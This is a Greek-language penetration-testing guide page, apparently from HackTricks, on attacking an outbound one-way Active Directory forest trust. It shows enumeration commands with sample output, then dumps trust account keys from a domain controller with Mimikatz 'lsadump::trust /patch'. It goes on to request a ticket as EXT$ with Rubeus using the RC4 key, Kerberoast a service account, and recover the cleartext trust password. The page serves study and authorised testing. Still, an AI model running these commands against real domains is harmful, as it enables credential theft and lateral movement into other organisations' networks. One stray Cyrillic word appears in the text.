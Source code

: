 # Εξωτερικό Δάσος Τομέα - Μονοκατεύθυνση (Εξόδου)

{{#include ../../banners/hacktricks-training.md}}

Σε αυτό το σενάριο **ο τομέας σας** **εμπιστεύεται** κάποιες **privileges** σε κύριο από **διαφορετικούς τομείς**.

## Απαρίθμηση

### Εμπιστοσύνη Εξόδου
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Επίθεση Λογαριασμού Εμπιστοσύνης

Μια ευπάθεια ασφαλείας υπάρχει όταν μια σχέση εμπιστοσύνης καθορίζεται μεταξύ δύο τομέων, που αναγνωρίζονται εδώ ως τομέας **A** και τομέας **B**, όπου ο τομέας **B** επεκτείνει την εμπιστοσύνη του στον τομέα **A**. Σε αυτή τη ρύθμιση, δημιουργείται ένας ειδικός λογαριασμός στον τομέα **A** για τον τομέα **B**, ο οποίος παίζει κρίσιμο ρόλο στη διαδικασία αυθεντικοποίησης μεταξύ των δύο τομέων. Αυτός ο λογαριασμός, που σχετίζεται με τον τομέα **B**, χρησιμοποιείται για την κρυπτογράφηση εισιτηρίων για την πρόσβαση σε υπηρεσίες μεταξύ των τομέων.

Η κρίσιμη πτυχή που πρέπει να κατανοηθεί εδώ είναι ότι ο κωδικός πρόσβασης και το hash αυτού του ειδικού λογαριασμού μπορούν να εξαχθούν από έναν Domain Controller στον τομέα **A** χρησιμοποιώντας ένα εργαλείο γραμμής εντολών. Η εντολή για την εκτέλεση αυτής της ενέργειας είναι:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Αυτή η εξαγωγή είναι δυνατή επειδή ο λογαριασμός, που αναγνωρίζεται με ένα **$** μετά το όνομά του, είναι ενεργός και ανήκει στην ομάδα "Domain Users" του τομέα **A**, κληρονομώντας έτσι τις άδειες που σχετίζονται με αυτήν την ομάδα. Αυτό επιτρέπει σε άτομα να πιστοποιούνται κατά του τομέα **A** χρησιμοποιώντας τα διαπιστευτήρια αυτού του λογαριασμού.

**Προειδοποίηση:** Είναι εφικτό να εκμεταλλευτεί κανείς αυτή την κατάσταση για να αποκτήσει πρόσβαση στον τομέα **A** ως χρήστης, αν και με περιορισμένες άδειες. Ωστόσο, αυτή η πρόσβαση είναι επαρκής για να εκτελέσει καταμέτρηση στον τομέα **A**.

Σε ένα σενάριο όπου το `ext.local` είναι ο τομέας εμπιστοσύνης και το `root.local` είναι ο εμπιστευμένος τομέας, θα δημιουργηθεί ένας λογαριασμός χρήστη με το όνομα `EXT$` εντός του `root.local`. Μέσω συγκεκριμένων εργαλείων, είναι δυνατόν να εκφορτωθούν τα κλειδιά εμπιστοσύνης Kerberos, αποκαλύπτοντας τα διαπιστευτήρια του `EXT$` στο `root.local`. Η εντολή για να επιτευχθεί αυτό είναι:
```bash
lsadump::trust /patch
```
Ακολουθώντας αυτό, θα μπορούσε κανείς να χρησιμοποιήσει το εξαγόμενο κλειδί RC4 για να αυθεντικοποιηθεί ως `root.local\EXT$` μέσα στο `root.local` χρησιμοποιώντας μια άλλη εντολή εργαλείου:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Αυτό το βήμα αυθεντικοποίησης ανοίγει τη δυνατότητα να καταμετρήσουμε και ακόμη και να εκμεταλλευτούμε υπηρεσίες εντός του `root.local`, όπως η εκτέλεση μιας επίθεσης Kerberoast για την εξαγωγή διαπιστευτηρίων λογαριασμού υπηρεσίας χρησιμοποιώντας:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Συλλογή καθαρού κωδικού εμπιστοσύνης

Στην προηγούμενη ροή χρησιμοποιήθηκε το hash εμπιστοσύνης αντί για τον **καθαρό κωδικό πρόσβασης** (ο οποίος επίσης **εξήχθη από το mimikatz**).

Ο καθαρός κωδικός πρόσβασης μπορεί να αποκτηθεί μετατρέποντας την \[ CLEAR ] έξοδο από το mimikatz από δεκαεξαδικό και αφαιρώντας τα null bytes ‘\x00’:

![](<../../images/image (938).png>)

Μερικές φορές, κατά τη δημιουργία μιας σχέσης εμπιστοσύνης, ένας κωδικός πρόσβασης πρέπει να πληκτρολογηθεί από τον χρήστη για την εμπιστοσύνη. Σε αυτή τη демонстрация, το κλειδί είναι ο αρχικός κωδικός πρόσβασης εμπιστοσύνης και επομένως αναγνώσιμος από άνθρωπο. Καθώς το κλειδί κυκλώνει (30 ημέρες), ο καθαρός κωδικός πρόσβασης δεν θα είναι αναγνώσιμος από άνθρωπο αλλά τεχνικά θα είναι ακόμα χρήσιμος.

Ο καθαρός κωδικός πρόσβασης μπορεί να χρησιμοποιηθεί για κανονική αυθεντικοποίηση ως ο λογαριασμός εμπιστοσύνης, μια εναλλακτική λύση για την αίτηση ενός TGT χρησιμοποιώντας το μυστικό κλειδί Kerberos του λογαριασμού εμπιστοσύνης. Εδώ, ερωτώντας το root.local από το ext.local για μέλη των Domain Admins:

![](<../../images/image (792).png>)

## Αναφορές

- [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{{#include ../../banners/hacktricks-training.md}}
